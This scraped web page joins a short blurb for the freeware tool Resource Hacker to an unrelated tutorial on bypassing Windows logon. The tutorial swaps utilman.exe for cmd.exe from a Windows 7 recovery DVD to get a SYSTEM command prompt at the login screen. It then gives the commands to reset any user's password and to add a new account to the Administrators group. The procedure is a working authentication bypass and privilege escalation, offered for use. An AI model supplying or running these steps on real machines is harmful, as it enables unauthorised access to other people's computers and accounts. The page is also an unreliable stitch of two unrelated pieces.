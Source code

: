 ### Resource HackerTM
... a freeware resource compiler & decompiler for Windows® applications

Version 5.1.7
Last updated: 3 January 2019
Copyright © 1999-2019 Angus Johnson
Freeware - no nags, no ads and fully functional.


### Bypass Windows Logons with the Utilman.exe Trick
Utilman.exe is a built in Windows application that is designed to allow the user to configure Accessibility options such as the Magnifier, High Contrast Theme, Narrator and On Screen Keyboard before they log onto the system. The user can trigger Utilman by pressing Windows Key + U before Windows logon. If you swap the Utilman.exe file with something else like cmd.exe, you have access to the command prompt running SYSTEM privileges. Use a Boot CD like UBCD4Win and use the file management software there
Use the Windows Vista or 7 DVD
In this example we will be using the Windows 7 DVD. To begin, boot from your Windows 7 DVD and when you reach the first screen asking about the language, currency and keyboard format, Click Next.
On the next page, down in the lower left hand side, click on the “Repair your computer” link.
Next, select the “Use recovery tools that can help fix problems starting Windows. Select an operating system to repair” option, choose an operating system from the list and Click Next.
ou will now have an option to “Choose a recovery tool”. Select Command Prompt.

You should now have a Command Prompt Window open. Type in the following commands:

C:\
cd windows\system32
ren utilman.exe utilman.exe.bak
copy cmd.exe utilman.exe

This will navigate to the system32 directory, rename utilman.exe to utilman.exe.bak, make a copy of cmd.exe and name it utilman.exe.

Remove the DVD and reboot the system.

Once the computer boots up normally, press the key combination Windows Key + U and you should get a Command Prompt.

Resetting an Existing Users Password: net user JohnDoe hunter2
you can see a list of the users by typing: net user
Creating a New User Account：
net user NewGuy abc123 /add
net localgroup Administrators NewGuy /add

Reverting Changes
To restore utilman.exe, in the Command Prompt type in:
C:
cd windows\system32
del utilman.exe
ren utilman.exe.bak utilman.exe
Then reboot the system.

To remove the new user account you just created earlier, type in:
net user NewGuy /delete
